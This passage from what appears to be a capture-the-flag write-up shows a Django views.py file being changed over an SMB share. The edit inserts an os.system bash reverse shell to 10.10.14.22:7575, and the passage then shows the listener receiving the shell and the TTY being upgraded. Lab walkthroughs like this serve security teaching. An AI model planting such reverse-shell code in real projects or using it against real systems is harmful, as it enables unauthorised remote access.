 ```
  tests.py                            N       60  Sun Aug  1 00:06:01 2021
  __pycache__                         D        0  Wed May 19 22:06:02 2021
  admin.py                            N       63  Sun Aug  1 00:06:01 2021
  models.py                           N       98  Sun Aug  1 00:06:01 2021
  templates                           D        0  Tue May 18 14:43:07 2021

                7151096 blocks of size 1024. 2439228 blocks available
smb: \writer_web\ > get views.py
getting file \writer_web\views.py of size 181 as views.py (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)
```

We download it and modify the file to contain a python reverseshell.

```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

os.system('bash -c "bash -i >& /dev/tcp/10.10.14.22/7575 0>&1"')

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```

We set up a ncat listener on the specified port and replace the file on the samba share with our modified version.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

```
putting file views.py as \writer_web\views.py (3.2 kb/s) (average 3.2 kb/s)
smb: \writer_web\ >
```

Django reloads the file almost instantly resulting in a reverse shell back to us. We upgrade the shell in a next step to stabilize it.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.182.107.
Ncat: Connection from 10.129.182.107:49024.
bash: cannot set terminal process group (1058): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:~/writer2_project$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ect$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@writer:~/writer2_project$ export TERM=xterm
export TERM=xterm
www-data@writer:~/writer2_project$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@writer:~/writer2_project$
```
